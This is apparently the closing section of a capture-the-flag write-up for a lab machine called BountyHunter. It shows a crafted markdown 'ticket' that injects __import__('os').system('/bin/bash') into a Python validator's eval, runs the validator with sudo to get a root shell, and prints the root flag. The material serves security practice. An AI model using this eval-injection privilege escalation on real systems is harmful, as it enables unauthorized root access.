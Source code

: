 ```python
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

So what the script does is It checks the **.md** filetype and for the **title** and the **subtitle** of the **markdown** file if the checks pass, it will execute our code.

So here's our payload with filename **privesc.md**
```markdown
# Skytrain Inc
## Ticket to root
__Ticket Code:__
**102+10 == 112 and __import__('os').system('/bin/bash') == True
```
![](/assets/bountyhunter/images/Pasted image 20210827134323.png)

Now let's run the command.
```shell-session
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/home/development/privesc.md
Destination: root
root@bountyhunter:/home/development# 
```

And here we got the **Root Shell**.

-----

### Root Flag
```
root@bountyhunter:/home/development# cat /root/root.txt
178180a9c12766e25351087423eed974
```

And here we successfully completed the Machine.

That's it for now, Thanks for Reading :)
-------

